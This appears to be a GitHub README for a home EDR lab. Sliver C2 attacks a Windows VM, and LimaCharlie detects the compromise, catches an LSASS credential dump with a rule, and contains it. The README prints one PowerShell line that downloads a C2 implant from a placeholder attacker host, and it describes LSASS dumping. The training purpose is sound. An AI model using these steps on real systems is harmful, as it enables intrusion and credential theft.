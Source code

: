 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed [Sliver-Server C2](https://bishopfox.com/blog/sliver), a command and control attack tool. I will be conducting a Credential Gathering attack using LSASS.exe to extract usernames and passwords. 

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.

The Technologies and Tools used during this project:

* Virtual Box NatNetwork
* Virtual Machines 
  + Windows 11
  + Ubuntu Server 22.04
* LimaCharlieEDR
* Silver Server 

## Labbing

After setting up the environment, the next step involved creating a Sliver-Server C2 implant on the Ubuntu server to be installed on the Windows system.


![Implant](https://i.imgur.com/LEP0qSk.png)


To facilitate the installation process, a quick web server was set up on the Ubuntu machine. This web server would host the C2 payload, allowing it to be easily accessed and downloaded by the Windows device.

On the Windows system, a PowerShell command was executed to initiate the download and save the C2 implant. The specific PowerShell command used was:

![IWR](https://i.imgur.com/dadsDeX.png)

IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]

In this command, [IpAddress] refers to the IP address of the Ubuntu machine hosting the C2 payload, [ImplantName] represents the name of the C2 implant file, and [FileLocation] indicates the desired location on the Windows system where the implant should be saved.

Once the C2 implant is successfully downloaded onto the Windows device, the next step would involve executing the malicious file. This execution grants the C2 infrastructure control over the compromised Windows system, allowing for remote access and potential malicious activities.

![Excute](https://i.imgur.com/mkdYQkp.png)

## After Implant is installed on Victum

We can run some commands inside the sliver-server session itself. 

Jumping inside our our session we can run some commands to identify the device we are on.

Whoami - Hostname

Netstat - Network connections

ps -T - Process Tree (sliver Highlights green its own files)

![Tree](https://i.imgur.com/CfmWUyF.png)


## Inside LimaCharlie EDR

After installing the malicious file we should be able to see this inside of our EDR soultion.

First thing to look at is going to be the processes running. After looking around for some time we see this file that does not have a signature(yellow)

![process](https://i.imgur.com/Pts6px0.png)

After finding that process we can go see that this file location is inside the Downloads folder of a user called Victum so we can locate this inside the filesystem section of LimaCharlie

![filesystem](https://i.imgur.com/ksRCp3P.png)

Now we are going to look at the timeline and go through and see what is going on when this file was installed. 

![timeline](https://i.imgur.com/jYVSaNr.png)

We can see that there is a Network Connetion created and the file in question is COMPLEX_BELL the malicious file. 

Usually a next step would be gathering the hash of the file and running this through VirusTotal but when doing this, VirusTotal returns nothing. This indicates that the attacker crafted this file themselves.  

## Credential Gathering

For attackers getting access to more than one account is critical. A way to do this is gathering creditals from the file lsass.exe. This file holds usernames, passwords and security tokens.

To learn more about LSASS Credential Gathering refer to [Mitre](https://attack.mitre.org/techniques/T1003/001/)

Running this command will copy the contents of the lsass file and dump it inside of the attackers host. 

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

To detect this method of Credential Gathering we will write a detection rule to detect this technique. 

In LimaCharlie we can enter this detection rule: 

![lsass-detection-rule](https://i.imgur.com/6bDKczs.png)

This rule will detect any interaction with the lsass file, so this could cause a lot of False Postives if administrators are using this file. But for this lab it is a good rule since we dont have any actual users. 

Now if we run the lsass dump command again

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

We will be able to detect it inside of LimaCharlie

![Lima-Detections](https://i.imgur.com/mCsvF9u.png)

## Containment & Eradication

First we need to identify if this attack took place on other devices inside the network. Since this lab only has one VM we know that there is only one. Next we should isolate this device from our network to ensure that this attacker can't move around or futher attack our internal network.

![isolate](https://i.imgur.com/E3bqXh9.png)

Then we can either return to a known good snapshot if this is a Virtual Machine. We can also delete the file inside LimaCharlie by going into the filesystem section and finding the malicous file. We will also need to inspect other logs and detections to ensure that no other attacks or malware took place on this device before we put it back on the network. 

The most important part, since this attack was stealing credientials, we need to change passwords, implement MFA and maybe change usernames to ensure the attacker cannot login to other devices or accounts. 

## Conclusion



## Credit

This project was based on a blog post by [Eric Capuano](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?sd=pf) 



